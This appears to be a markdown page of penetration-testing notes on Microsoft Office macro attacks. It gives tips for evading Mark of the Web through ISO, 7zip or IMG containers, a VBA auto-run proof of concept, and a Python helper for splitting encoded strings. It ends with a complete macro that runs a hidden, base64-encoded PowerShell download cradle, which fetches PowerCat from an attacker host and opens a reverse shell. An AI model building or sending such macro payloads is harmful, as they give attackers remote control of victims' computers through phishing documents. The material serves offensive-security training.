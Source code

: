 # Microsoft Office



Many security products scan for malicious macros.
Microsoft also provides guides and Group Policy Object (GPO) templates to mitigate and reduce this threat.
In addition, most social engineering awareness training programs focus on preventing this vector.
These factors make this a difficult vector to successfully execute.


https://docs.microsoft.com/en-us/DeployOffice/security/plan-security-settings-for-vba-macros-in-office

## Mark of the Web (MOTW)
If we successfully manage to deliver the Office document to our target via email or download link, the file will be tagged with the Mark of the Web (MOTW) and will open in Protected View (which disables all editing and modification settings in the document and blocks the execution of macros or embedded objects).

MOTW is not added to files on FAT32-formatted devices.

It is possible to avoid getting a file flagged with MOTW by providing it in container file formats like 7zip, ISO, or IMG.




## Macros

Macros are one of the oldest and best-known client-side attack vectors.

- < https://support.office.com/en-us/article/Create-or-run-a-macro-C6B99036-905C-49A6-818A- DFB98B7C3C9C>

- <https://docs.microsoft.com/en-us/office/vba/api/overview/>

Macros can be written from scratch in Visual Basic for Applications (VBA), which is a powerful scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.





### Filetype
Save the file in the `.doc` format. This is important because the newer `.docx` file type cannot save macros without attaching a containing template. This means that we can run macros within `.docx` files but we can't embed or save the macro in the document. In other words, the macro is not persistent. Alternatively, we could also use the `.docm` file type for our embedded macro.




### PoC

This VBA code just opens PowerShell:
```
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	CreateObject("Wscript.Shell").Run "powershell"
End Sub
```




### Reverse shell with PowerCat

We'll use a base64-encoded PowerShell download cradle to download PowerCat and start the reverse shell.

- <https://gist.github.com/HarmJ0y/bb48307ffa663256e239>

The encoded PowerShell command will be declared as a String in VBA.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.



Declare a string variable named `Str` with the `Dim` keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat.

`Dim` stands for Dimension.
It is a keyword used to declare and allocate storage space for variables.
When you use `Dim`, you are essentially telling the compiler to create a variable of a certain type and, optionally, initialize it.


We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the `Str` variable.
To do this, we store the PowerShell command in a variable named `str` and the number of characters for a chunk in `n`. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.

```python
str = "powershell.exe -nop -w hidden -enc [ENCODED STRING]"
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
```




```
' VBA Script
' PowerShell command to download cradle and PowerCat reverse shell
' Encode the command with base64 to avoid issues with special characters
'
' IEX(New-Object System.Net.WebClient).DownloadString('http://[ATTACKER IP]/powercat.ps1');powercat -c [ATTACKER IP] -p [PORT] -e powershell
'
'

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str & "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str & "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str & "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    Str = Str & "hAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5A"
    Str = Str & "DIALgAxADYAOAAuADQANQAuADIAMwAzAC8AcABvAHcAZQByAGM"
    Str = Str & "AYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAAL"
    Str = Str & "QBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMwAzACAALQB"
    Str = Str & "wACAAOQA5ADkAOQAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsA"
    Str = Str & "GwA"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```















